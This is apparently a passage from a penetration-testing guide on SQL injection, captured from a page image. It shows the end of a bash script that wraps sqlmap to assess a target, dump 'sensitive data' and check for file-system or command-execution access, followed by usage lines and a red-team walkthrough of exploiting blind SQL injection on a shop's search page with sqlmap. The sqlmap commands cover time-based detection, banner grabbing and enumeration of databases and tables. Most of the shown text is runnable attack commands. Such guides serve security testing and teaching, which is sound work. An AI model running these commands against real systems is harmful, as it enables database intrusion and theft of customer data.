 ```bash
    echo "✗ No SQL Injection vulnerability definitively confirmed"
  fi
  echo ""
  echo "Database Information:"
  echo "- Type: $(grep -A 1 "back-end DBMS" "$OUTPUT_DIR/Database_Banner.txt" | tail -n 1)"
  echo "- Current User: $(grep -A 1 "current user" "$OUTPUT_DIR/Current_User.txt" | tail -n 1)"
  echo "- Current Database: $CURRENT_DB"
  echo ""
  echo "Interesting Tables Examined:"
  for table in "${INTERESTING_TABLES[@]}"; do
    echo "- $table"
  done
  echo ""
  echo "Sensitive Data Extracted:"
  echo "See individual dump files in $OUTPUT_DIR/dump/"
  echo ""
  echo "Advanced Exploitation:"
  if grep -q "the target is" "$OUTPUT_DIR/File_Read_Check.txt"; then
    echo "✓ Target may allow file system access or command execution"
  else
    echo "✗ No evidence of file system access or command execution capability"
  fi
} > "$OUTPUT_DIR/summary_report.txt"

echo "[+] Assessment complete! Summary saved to $OUTPUT_DIR/summary_report.txt"
```

To use this script:

```bash
chmod +x sqlmap_comprehensive.sh
./sqlmap_comprehensive.sh "http://vulnerable-site.com/page.php?id=1"
```

### Example: Extracting Sensitive Data Through Blind SQLi

During a red team assessment for an e-commerce company, we encountered a product search page that was vulnerable to blind SQL injection. Here's how we exploited it:

1. **Initial Discovery**:
   - Noticed unexpected behavior when adding single quotes to search terms
   - Confirmed vulnerability using time-based techniques:

   ```bash
   # Initial test that caused a delay in response
   sqlmap -u "https://target-shop.com/search?term=product" --technique=T --time-sec=10
   ```

2. **Database Enumeration**:
   ```bash
   # Identified the database type (MySQL) and version
   sqlmap -u "https://target-shop.com/search?term=product" --banner
   
   # Enumerated available databases
   sqlmap -u "https://target-shop.com/search?term=product" --dbs
   
   # Found interesting database: shop_prod
   sqlmap -u "https://target-shop.com/search?term=product" -D shop_prod --tables
   ```
